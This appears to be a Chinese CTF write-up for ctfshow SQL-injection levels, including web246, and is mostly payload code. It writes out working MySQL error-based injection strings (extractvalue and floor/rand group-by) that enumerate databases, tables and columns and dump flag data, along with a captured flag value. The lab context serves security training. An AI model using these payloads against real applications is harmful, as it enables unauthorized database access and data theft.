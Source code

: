 ```
查数据库名：id=' and (select extractvalue(1,concat(0x7e,(select database()))))%23

爆表名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))%23
//ctfshow_flagsa

爆字段名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagsa"))))%23
//flag1

爆数据：
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),1,30) from ctfshow_flagsa))))%23
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),31,30) from ctfshow_flagsa))))%23

//ctfshow{41446106-c47e-434d-a0c0-16ee43375249}
```



#### web246

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue
```

floor报错注入

原理：[SQL注入报错注入之floor()报错注入原理分析_sql注入floor-CSDN博客](https://blog.csdn.net/miraclehw/article/details/129250360)

```
#获取表名
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取列名
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flags'  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (flag2) from ctfshow_flags  limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
```
